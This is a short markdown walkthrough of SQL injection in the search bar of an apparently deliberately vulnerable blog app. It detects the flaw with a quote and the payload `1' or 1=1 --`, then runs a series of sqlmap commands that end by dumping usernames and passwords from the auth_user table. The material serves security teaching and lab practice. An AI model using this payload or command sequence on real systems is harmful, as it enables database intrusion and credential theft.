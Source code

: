 # Sql injection 

# SQLI in Search bar

## 1. Detect 

In the search form field when the user searches for anything, the things the user just entered will go directly through the database and return the results to the user. So this is the vulnerable point

![image](https://user-images.githubusercontent.com/63194321/133385296-5295094c-49c4-4034-a3b0-3bc00fecfe3b.png)

We will check in this location.

First, we will search  `'`  on the search form. Result returned error

![image](https://user-images.githubusercontent.com/63194321/133388364-77edc108-4f68-4f64-ac21-bcd30f66c4db.png)

Now here we are pretty sure there will be an `SQLi` error. To be more sure, we will search with a payload `1' or 1=1 --`.

The result returns `all` posts in the database. So this is definitely an `In-band SQLi` vulnerability

## 2. Exploit
After determining that there is `In-band SQLi` at this address, we will use sqlmap to scan and attack

**B1.** Start Sqlmap and enter command to scan for `sqli` vulnerabilities:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch`

![image](https://user-images.githubusercontent.com/63194321/132506775-bfe319ad-d1e6-4b7d-9535-31730048cc07.png)

**B2.** Define a list of databases:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch --dbs`

![image](https://user-images.githubusercontent.com/63194321/132508430-06ebfa6b-66a3-4e06-bd35-7857fab4a5f0.png)

**B3.** Identify the tables in the database:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -tables`

![image](https://user-images.githubusercontent.com/63194321/132508803-98a9a86f-dca3-419c-84c7-f284a535c659.png)

**B4.** Define columns in tables:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -T auth_user -columns`

![image](https://user-images.githubusercontent.com/63194321/132509383-9d885446-6ffb-4409-957a-ffeabfbac78e.png)

**B5.** Get the username and password values:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -T auth_user -C username, password --dump`

![image](https://user-images.githubusercontent.com/63194321/132510741-09017ecd-a95e-4cc5-8f45-b0129742314d.png)


